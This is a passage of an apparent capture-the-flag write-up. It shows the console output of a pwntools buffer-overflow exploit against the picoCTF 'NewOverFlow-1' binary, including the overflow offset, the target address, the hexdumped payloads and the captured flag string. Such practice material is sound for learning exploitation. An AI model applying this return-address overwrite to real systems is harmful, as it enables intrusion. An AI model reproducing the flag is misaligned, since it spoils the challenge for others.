 Output:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# python exploit.py
[*] '/media/sf_CTFs/pico/NewOverFlow-1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.6L3X1OVx47'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a'
[+] Starting local process '/media/sf_CTFs/pico/NewOverFlow-1/vuln': pid 840
[*] Process '/media/sf_CTFs/pico/NewOverFlow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 840)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/NewOverFlow-1/core.840'
    Arch:      amd64-64-little
    RIP:       0x4007e7
    RSP:       0x7ffcf64ed5f8
    Exe:       '/media/sf_CTFs/pico/NewOverFlow-1/vuln' (0x400000)
    Fault:     0x616161616161616a
[*] Overflow offset: 72 (8-byte architecture)
[*] flag() address: 0x400767
[+] Starting remote process '/problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln' on 2019shell1.picoctf.com: pid 322295
[*] Sending payload:
    00000000  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000040  42 42 42 42  42 42 42 42  e8 07 40 00  00 00 00 00  │BBBB│BBBB│··@·│····│
    00000050
[*] Sending payload:
    00000000  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000040  42 42 42 42  42 42 42 42  67 07 40 00  00 00 00 00  │BBBB│BBBB│g·@·│····│
    00000050
[+] Receiving all data: Done (51B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 322295)

picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_d0b837aa}
```